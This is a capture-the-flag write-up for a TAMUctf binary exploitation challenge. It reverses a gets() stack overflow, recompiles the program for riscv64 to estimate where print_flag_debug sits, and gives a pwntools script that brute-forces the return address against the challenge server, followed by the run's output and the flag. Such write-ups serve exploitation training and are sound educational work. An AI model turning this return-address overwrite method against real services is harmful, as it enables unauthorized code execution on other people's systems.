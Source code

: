 # meet-me-under-the-arch

## Description

The people who wrote this binary are simply mocking us with the simplicity of the vulnerability present
in this binary, but we can't exploit the remote! It seems to be running riscv64 instead.

Can you exploit the remote based off the vulnerability present in this binary?

```nc challenges.tamuctf.com 7238```

## Solution

tl;dr: reverse the binary into c, compile your own binary for riscv64 so you can get the general print_flag_debug location, and then brute force that area of the binary until your exploit works. 

### initial review

#### main

```c
undefined8 main(void)

{
  taunt();
  return 0;
}
```

#### taunt

```c
void taunt(void)

{
  uint uVar1;
  
  printf("Flag\'s here: %p\nCome and get it!\n",flag);
  uVar1 = fflush(stdout);
  vuln((ulonglong)uVar1);
  return;
}
```

#### vuln

```c
void vuln(void)

{
  char acStack69 [53];
  
  gets(acStack69);
  return;
}
```

#### print_flag_debug

```c
ulonglong print_flag_debug(void)

{
  uint uVar1;
  
  printf("Okay, so you really need the flag. Here it is: %s\n",flag);
  uVar1 = fflush(stdout);
  return (ulonglong)uVar1;
}
```

The flow of this exploit is pretty straightforward.  We have an unbounded buffer overflow via gets and a function that prints the flag when called.  If the server were running the aarch64 binary we were provided the challenge would basically be done.  Instead, we need to figure out the address of the function when compiled for a riscv64 target.  

### creating a local riscv64 binary

I opened up the provided aarch64 binary in Ghidra and pretty much copy pasted the function decompilations into another file with minor changes to make it compile.  

```c
#include <stdlib.h>
#include <stdio.h>
char* flag = "gigem{howdy!}";


void print_flag_debug() {  
  printf("Okay, so you really need the flag. Here it is: %s\n",flag);
  fflush(stdout);
}

void vuln(void) {
  char acStack69 [53];  
  gets(acStack69);
}


void taunt() {
  printf("Flag\'s here: %p\nCome and get it!\n",flag);
  fflush(0);
  vuln();
}

int main() {
	taunt();
}
```
Once you have the C code for it, you just need to compile it into riscv64 instructions.  The provided aarch64 binary used clang (which could be found via strings) and so I did also. If you don't already have it, you'll need to install the riscv64 gcc toolchain to compile to it.  

`clang --target=riscv64-linux-gnu meet-me-under-the-arch.c  -o meet-me-under-the-arch.riscv64 -nopie -fno-stack-protector -v`


The address of the print_flag_debug function on my compiled copy is 0x10558.  To allow for some differences in the compilation we'll start a little bit below that and iterate up from there until we get the flag.  

### exploiting the server


```python
from pwn import *
import re
import sys
import time
context.terminal = ['termite','-e']

e = ELF("./meet-me-under-the-arch.riscv64")

base = 0x10500 # 0x58 below the address of print_flag_debug in my compiled copy


payload = b"B" * 61
index = 0

while True:
	p = remote("34.123.13.72", 7238)
	print("Trying addr: ", hex(base))
	target = int(re.search("^Flag's here: (.*?)$",p.readline().decode("utf-8") ).group(1),16)
	p.sendline(payload + p64(base, endian=e.endian))
	time.sleep(.5) # this delay is important because otherwise receiving the flag is inconsistent
	p.recv(256)

	try:
		if p.can_recv():
			maybe_flag = p.recv(256).decode("utf-8")
			match = re.search("gigem{.*?}", maybe_flag)
			if match is not None:
				print(match.group(0))
				sys.exit()
	except EOFError:
		pass
	p.close()
	base += 1
```

```text
❯ python solver.py SILENT=1
Trying addr:  0x10558
Trying addr:  0x10559
Trying addr:  0x1055a
Trying addr:  0x1055b
Trying addr:  0x1055c
Trying addr:  0x1055d
...
Trying addr:  0x1059c
Trying addr:  0x1059d
Trying addr:  0x1059e
gigem{just_a_touch_of_je_ne_sais_quoi}
```